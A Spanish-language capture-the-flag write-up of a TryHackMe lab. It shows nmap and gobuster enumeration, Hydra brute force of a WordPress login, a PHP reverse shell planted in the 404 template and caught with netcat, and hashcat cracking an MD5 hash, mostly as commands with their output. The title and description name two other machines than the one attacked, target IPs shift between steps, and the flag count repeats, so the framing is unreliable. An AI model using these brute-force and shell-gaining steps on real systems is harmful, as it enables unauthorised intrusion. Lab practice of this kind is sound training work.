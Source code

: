 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Medio
- **Fecha de resolución:** 25/06/2025
- **Sistema Operativo:** Linux


## Descripción

RootMe es una máquina de nivel introductorio diseñada para enseñar conceptos básicos de enumeración web,
explotación remota y escalada de privilegios en sistemas Linux. Es ideal para principiantes que buscan familiarizarse con el flujo típico de un ataque en entornos CTF.

Esta máquina es especialmente útil para:

> Enumeración de servicios expuestos

> Explotación de vulnerabilidades web (RCE)

> Ganancia de acceso inicial (low privilege shell)

> Escalada de privilegios mediante binarios SUID mal configurados

## Enumeración

### Escaneo con Nmap

```bash
─$ nmap --open -sS -T5 -n -sV -Pn 10.10.39.168 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-25 18:34 CEST
Nmap scan report for 10.10.39.168
Host is up (0.092s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```
### Escaneo con gobuster

```bash
└─$ gobuster dir -u http://10.10.39.168/ -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.168/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots               (Status: 200) [Size: 41]
/admin                (Status: 301) [Size: 234] [--> http://10.10.39.168/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.39.168/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.39.168/css/]
/images               (Status: 301) [Size: 235] [--> http://10.10.39.168/images/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.39.168/js/]
/intro                (Status: 200) [Size: 516314]
/login                (Status: 302) [Size: 0] [--> http://10.10.39.168/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.39.168/feed/]
/sitemap              (Status: 200) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
En robots.txt encontraremos un diccionario junto a la primera flag, para visualizarlo lo haremos como si de un sitio web más se tratase.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Con un wget nos descargaremos este diccionario, lo limpiaremos debido a que hay muchas lineas repetidas.
```bash
wget http://10.10.196.195/fsocity.dic
sort -u archivo.txt > archivo_sin_repetidos.txt
```
Haremos un ataque de fuerza bruta con hydra únicamnete hacia el usuario, veremos que si el usuario existe el codigo de error es diferente y nos lo detecta.
Los parámetros del forumalario los podemos verificar enviando la petición de login hacia burpsuite.
```bash
└─$ hydra -I -L fsocity_clean.dic -p x 10.10.196.195 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=Invalid username" -t30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizatins, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 23:02:24
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-forms://10.10.196.195:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log%20In&testcooke=1:F=Invalid username
[STATUS] 1365.00 tries/min, 1365 tries in 00:01h, 10087 to do in 00:08h, 30 active
[STATUS] 1106.33 tries/min, 3319 tries in 00:03h, 8133 to do in 00:08h, 30 active
[443][http-post-form] host: 10.10.196.195   login: Elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: ELLIOT   password: x
[STATUS] 1028.86 tries/min, 7202 tries in 00:07h, 4250 to do in 00:05h, 30 active

```
Una vez detectado el usuario Eliot procederemos a lanzar el ataque de fuerza bruta contra la contraseña, hemos de tener en cuenta el campo F que detectara si las contraseñas probadas son incorrectas 
```bash
└─$ hydra -I -l ELLIOT -P fsocity_clean.dic 10.10.170.170 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect" -t30                             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-29 16:00:37
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-forms://10.10.170.170:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect

[STATUS] 2322.00 tries/min, 2322 tries in 00:01h, 9130 to do in 00:04h, 30 active
[443][http-post-form] host: 10.10.170.170   login: ELLIOT   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-29 16:03:07
```
Desde Apparece > Editor modificaremos la página que se muestra en caso de no encontrar la página por una reverse shell en PHP (www.revshells.com)
Ahora solo hara falta ponernos en escucha con netcat y haremos que cargue la página de error 404.
Aqui encontraremos el segundo flag.
```bash
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.9.1.252] from (UNKNOWN) [10.10.51.184] 45458
Linux ip-10-10-51-184 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:28:05 up 9 min,  0 users,  load average: 0.49, 0.19, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (5360): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-10-51-184:/$ 
```
En el home de robot nos encontraremos un hash MD5 que crackearemos para poder acceder mediante SSH como robot y poder ver el segundo flag
```bash
─$ hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-10600KF CPU @ 4.10GHz, 2192/4449 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```
